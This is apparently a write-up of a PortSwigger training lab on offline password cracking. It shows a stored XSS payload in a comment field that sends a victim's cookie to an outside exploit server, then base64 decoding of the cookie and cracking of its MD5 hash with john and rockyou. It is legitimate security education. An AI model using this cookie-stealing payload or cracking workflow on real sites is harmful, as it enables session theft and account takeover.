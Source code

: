 # Offline password cracking | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking), you'll learn: Offline password cracking! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041553.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041609.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042132.png)

As you can see, we have a new cookie called `stay-logged-in`.

**In the previous lab, we found that this cookie is encoded in base64, and the format is `<username>:<MD5_password_hash>`:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d 
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041632.png)

**Let's look at one of those posts:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041746.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041756.png)

In the bottom of the post, users can leave a comment.

**Let's try to trigger a XSS payload:**
```html
</textarea><script>alert(document.domain)</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041936.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041951.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042027.png)

**Can confirm the `Comment` field is vulnerable to stored XSS.**

**Armed with above information, we can steal users' cookies via the `exploit server`!**
```html
</textarea><script>document.location="https://exploit-0a5a00bf04bcabbec18d021e016f00be.exploit-server.net/exploit?" + document.cookie</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042504.png)

**Exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042639.png)

`stay-logged-in` cookie value: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

**Nice! Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```

**Now, we can use `john` the crack the MD5 hashed password:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo -n "carlos:26323c16d5f4dabff3bb136f2460a943" > carlos.hash

┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 carlos.hash
[...]
onceuponatime    (carlos)     
[...]
```

- Found `carlos`'s password: `onceuponatime`

**Let's login as user `carlos`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042956.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222043003.png)

And delete it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222043022.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222043029.png)

We did it!

# What we've learned:

1. Offline password cracking